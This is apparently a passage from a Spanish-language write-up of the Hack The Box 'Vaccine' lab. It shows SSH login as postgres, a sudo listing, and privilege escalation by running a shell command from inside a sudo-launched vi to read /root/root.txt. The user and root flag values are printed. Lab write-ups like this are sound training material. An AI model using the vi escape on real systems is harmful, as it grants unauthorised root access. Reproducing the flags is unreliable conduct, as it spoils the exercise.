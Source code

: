 Uso el mismo truco anterior para obtener los resultados esperados, pasar la password a sudo de esta forma es inseguro porque se podría ver en el history, no usen esta mala praxis, estamos atacando. 

> vi

Submit user flag

No podemos pedir usar vi con este terminal proporcionado por sqlmap, así que nos conectamos por SSH.

``` shell
┌──(kali㉿kali25)-[~]
└─$ ssh postgres@10.129.95.174
postgres@10.129.95.174's password: 
Welcome to Ubuntu 19.10 (GNU/Linux 5.3.0-64-generic x86_64)
postgres@vaccine:~$ sudo -l
[sudo] password for postgres: 
Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH
    XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf

postgres@vaccine:~$ find / -name user.txt 2> /dev/null
/var/lib/postgresql/user.txt
postgres@vaccine:~$ cat /var/lib/postgresql/user.txt
ec9b13ca4d6229cd5cc1e09980965bf7
```

Submit user flag 

Como en todos los retos buscamos user.txt para encontrar el user flag

> ec9b13ca4d6229cd5cc1e09980965bf7

Submit root flag

Ahora podemos abusar de los permisos que nos han concedido para poder utilizar vi como vector de penetración.


``` shell
postgres@vaccine:~$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

Como se puede usar vi para lanzar comandos estaríamos ejecutando binario con demasiadas capacidades y para más lo estamos lanzando privilegiado.

```:! cat /root/root.txt``` 

Dentro de vi ejecutamos ```:! cat /root/root.txt``` o el comando que queramos, tenemos privilegios. 

``` shell
Press ENTER or type command to continue
dd6e058e814260bc70e9bbdef2715849
```

> dd6e058e814260bc70e9bbdef2715849

Lanzamos el comando con sudo y ahora dirigiendo los comandos a descubrir el directorio de root y la flag

[achivement](https://labs.hackthebox.com/achievement/machine/2336390/289)